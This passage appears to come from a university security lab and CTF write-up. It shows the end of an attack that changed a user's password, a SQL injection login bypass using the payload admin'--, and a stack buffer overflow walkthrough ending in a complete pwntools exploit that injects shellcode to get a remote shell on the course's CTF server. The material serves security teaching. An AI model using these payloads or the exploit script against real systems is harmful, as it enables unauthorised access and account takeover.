   
   <figcaption><strong>Fig 20. </strong>Our payload</figcaption>
</figure>

4. Log out of the website.

5. Log in with Boby's new credentials.

   - Username: `Boby`
   - Password: `you_wont_access_your_account_again_bobby`

<figure>
   
   <figcaption><strong>Fig 21. </strong>Logging into Bobby's account with the new credentials</figcaption>
</figure>

As we can see, Bobby's password has been changed.

<figure>
   
   <figcaption><strong>Fig 22. </strong>Successful login into Bobby's account</figcaption>
</figure>

<br>
<br>
<br>

# CTF

## CTF - Challenge 1

In this challenge, we are given a `index.php` file that contains the source code of the website the challenge is running in. We want to login with the admin account.

After analyzing the source code, we can find an unnusual code segment:

```php
              $username = $_POST['username'];
               $password = $_POST['password'];
               
               $query = "SELECT username FROM user WHERE username = '".$username."' AND password = '".$password."'";
```

The fields in the sql query provenient from user input (Post request) are not being sanitized and therefore, it is vulnerable to sql injection.

If in the username field we use a payload like `admin'--` and `a` in the password field (irrelevant, but since it is required, needs to be filled), the query sent would be:

```sql
SELECT username FROM user WHERE username = 'admin'--"' AND password = 'a'
```

This would bypass the password verification, since it is commented and we would sucessfully have a login as `admin`.


<br>

## CTF - Challenge 2

In this challenge, we are given a `program`, along with its source code.

### Step 1 - Checksec

By running `checksec` on the program, we can discover many things:

```bash
❯ checksec program
   Arch:     i386-32-little
   RELRO:    No RELRO
   Stack:    No canary found
   NX:       NX disabled
   PIE:      PIE enabled
   RWX:      Has RWX segments   
```

- The executable's architecture is 32 bits and little-endian

- There are segments in memory with Read, Write and Execute Permissions

- Position Independent Executable (PIE) is enabled

- NX (No eXecute) is disabled

- There's no canary

<br>

Analyzing the program with `readelf -l program` gives us the following output:

```bash
Elf file type is DYN (Position-Independent Executable file)
Entry point 0x10f0
There are 11 program headers, starting at offset 52

Program Headers:
  Type           Offset   VirtAddr   PhysAddr   FileSiz MemSiz  Flg Align
  # ...
  GNU_STACK      0x000000 0x00000000 0x00000000 0x00000 0x00000 RWE 0x10
  # ...
```

As we can see, the stack has read (R), write (W) and execute (E) permissions. Knowing this and knowing that there is no stack canary, a return-oriented programming attack probably will be our most successful bet to get the flag. All that is left is for us to get a buffer overflow.


### Step 2 - Source code analysis

By analyzing the program's source code, as expected, we can immediately spot a buffer overflow vulnerability on line 12.

```c
int main() {
   char buffer[100]; // line 5
   
   // ...

   gets(buffer); // line 12

   return 0;
}
```

Since the program is using `gets`, it will continue reading the program's input into the `buffer` until it finds a null-byte terminator, even if it overflows the buffer's allocated space.

This means that we can overwrite anything we want on the stack, as long as we know its relative position to the `buffer` in the stack.

Furthermore, in the previous step, we determined that the stack has RWX permissions, which means that we can write a shellcode to the stack and then return to the address of the shellcode (the address of `buffer` is printed to the stdout on every execution), giving us a shell in the machine.

### Step 3 - Return address offset

The only thing that is left for us to write the exploit is to know the location of `main`'s return address relative to the `buffer` (offset). For that purpose, we will use `gdb`.


We can conclude that, in this execution, the value of `$ebp` is `0xffffc978` and the address of buffer is `0xffffc910`.

```
0xffffc978 - 0xffffc910 = 0x68 = 104
```

This means that we will need to write 104 bytes to overwrite the position pointed to by `ebp`, however, the return address, which is what we want to overwrite, is 1 position above the frame pointer, therefore:

```
OFFSET = 104 + 4 (32-bit frame pointer) = 108
```

### Step 3 - Exploitation

Our exploit is as follows:

```py
#!/bin/env python3

from pwn import *

OFFSET = 108
RET_ADDR_SIZE = 4

p = remote("ctf-fsi.fe.up.pt", 4001)

p.recvuntil([b" is "])

address = p.recvline(keepends=False)[:-1]
address = int(address, 16)

info("Address: " + hex(address))

# PAYLOAD

payload = bytearray(0x90 for i in range(OFFSET + RET_ADDR_SIZE))
shellcode = asm(shellcraft.i386.linux.sh())

info("Shellcode size: " + str(len(shellcode)))

payload[:len(shellcode)] = shellcode
payload[OFFSET:OFFSET + RET_ADDR_SIZE] = p32(address)

# END OF PAYLOAD

p.sendlineafter(b":", payload)
p.interactive()
```

1. Create a new process
2. Read `buffer`'s address
3. Create the payload, which consists of a shellcode at the start and the address of `buffer` at the end
4. Send the payload to the process
5. You have a shell!


